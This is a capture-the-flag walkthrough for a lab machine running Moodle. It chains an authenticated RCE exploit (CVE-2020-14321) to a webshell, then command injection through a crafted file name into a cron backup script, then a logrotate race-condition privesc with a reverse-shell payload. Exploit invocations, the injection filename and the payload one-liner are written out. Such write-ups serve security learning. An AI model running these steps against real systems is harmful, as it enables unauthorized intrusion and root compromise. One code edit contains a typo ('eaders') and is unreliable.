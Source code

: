 # Plotted LMS

A fairly hard room, largely due to the breadth of the enumeration and its numerous rabbit holes, plus some instability mixed with dickery in the foothold path.

1. A rust scan reveals four websites, 80, 873, 8820 and 9020. All show a default apache page
2. Using ffuf with directory wordlist medium on each, it reveals three sites: :873/rail, :8820/learn and :9020/moodle. The first two look to be custom built, but the last is a regular moodle instance.
3. Running moodlescan against the moodle url, reveals it is version 3.9 beta. This version is vulnerable to CVE-2020-14321, a authenticated remote code execution vulnerability.
4. The vuln requires the creds or cookie of a 'teacher'. Fortunately the site allows registeration, so I register a `test123:Test-123` user. Furthermore, there is a course 'teachers only' that allows self-enrollment, making the new user a teacher.

> The next bit was tricky. It took me four instances of the target VM and a lot of dickery to get the exploit working. Part of it was the author's countermeasures: any request without a referer header would respond with a rickroll message, breaking the script. But aside from that, the exploit itself seemed dependent on a very specific state - any messing about with moodle as I did trying to debug or enumerate would break the script flow, very annoying. In the end, the exact steps described following worked somewhat consistently.

5. On exploit-db, there is a reference impl for this vuln: https://www.exploit-db.com/exploits/50180. Instead of using that directly, I used the original repo referenced: https://github.com/HoangKien1020/CVE-2020-14321
6. Before running, this needs to be modified:
    - on line 9, this line: `headers={"Content-Type":"application/x-www-form-urlencoded"}` should be expanded to include a referer value, e.g. `headers={"Content-Type":"application/x-www-form-urlencoded","Referer": "http://10.10.94.67:9020/moodle/"}`
    - there are two uses of `session.get` in the script that dont specify headers, e.g. line 27~: `r=session.get(login_url,proxies=proxies)`. This should be changed to add the headers variable, e.g. `r=session.get(login_url,proxies=proxies,eaders=headers)`.
7. Running the script like so will hopefully result in output like the following:

    ```bash
    root@ip-10-10-242-204:~# python3 ./cve202014321.py -url http://10.10.94.67:9020/moodle -u test123 -p Test-123 -cmd=ls
                             ***CVE 2020 14321***
        How to use this PoC script
        Case 1. If you have vaid credentials:
        python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
        Case 2. If you have valid cookie:
        python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

    [+] Your target: http://10.10.94.67:9020/moodle
    [+] Logging in to teacher
    [+] Teacher logins successfully!
    [+] Privilege Escalation To Manager in the course Done!
    [+] Maybe RCE via install plugins!
    [+] Checking RCE ...
    [+] RCE link in here:
    http://10.10.94.67:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=ls
    block_rce.php

    ```
    
8. with the new webshell we can get a strong reverse shell. I used `https://github.com/NHAS/reverse_ssh` to get a full shell as www-data.
9. To pivot to the `plot_admin` user, there is a cronjob that runs every minute, executing a script called backup.py in the plot_admin user's home directory. The contents of this script are:

    ```python
    import os

    moodle_location = "/var/www/uploadedfiles/filedir/"
    backup_location = "/home/plot_admin/.moodle_backup/"

    os.system("/usr/bin/rm -rf " + backup_location + "*")

    for (root,dirs,files) in os.walk(moodle_location):
            for file in files:
                    os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
    ```
    
10. To exploit this, as we have write into `/var/www/uploadedfiles/filedir/`, we can create a file in there like `$(chmod 777 backup.py)`. This can be done with `touch \$\(chmod\ 777\ backup.py\)` in that folder. Within a minute, the backup file will be writable by our user.
11. Next, adding `os.system("/var/www/9020/moodle/blocks/rce/lang/en/client")` into backup.py (after removing the chmod file above, as it breaks the script) will get a reverse shell as plot_admin. Note this is using the reverse_ssh client I downloaded with the webshell.

> The following root privesc seemed *real* flaky, and I tried over multiple restarts to get it to work, only persisting once I checked and my approach *is* intended. So, just be aware that this might require a few goes. Best bet I've found is to get in there quick - I've had it work semi-seamlessly if I'm running logrotate 10 minutes after machine boot.

13. Careful enumeration or using pspy will reveal logrotate is being used with a custom config file at `/etc/logbackup.cfg`. The contents of this are:

    ```
    /home/plot_admin/.logs_backup/moodle_access {
        hourly
        missingok
        rotate 50
        create
    }
    ```
    
14. This suggests a [logrotten](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition) vulnerability, since we control that directory as plot_admin. Basically we can swap out the file being created/updated due to a race condition, plonk a payload into bash completion, and when the root user logs in they will trigger the payload and grant us a shell. Enumeration shows we don't have to wait - the root user is executing what they find in bash completion on a schedule.
15. To abuse this, I used https://github.com/whotwagner/logrotten. My payload file triggered a reverse_ssh client. In order to trigger the log rotate, you need to modify the moodle_access backup file - this can all be done in a few lines like so (run from plotadmin's home folder, where client and logrotten (compiled) have been placed:

    ```
    echo 'if [ `id -u` -eq 0 ]; then (/home/plot_admin/client &); fi' > payloadfile
    cp .logs_backup/02.06.2022 .logs_backup/moodle_access; ./logrotten -p payloadfile -d /home/plot_admin/.logs_backup/moodle_access
    ```
17. And after a few minutes (or rather, five or so restarts and many hours of waiting) boom root!
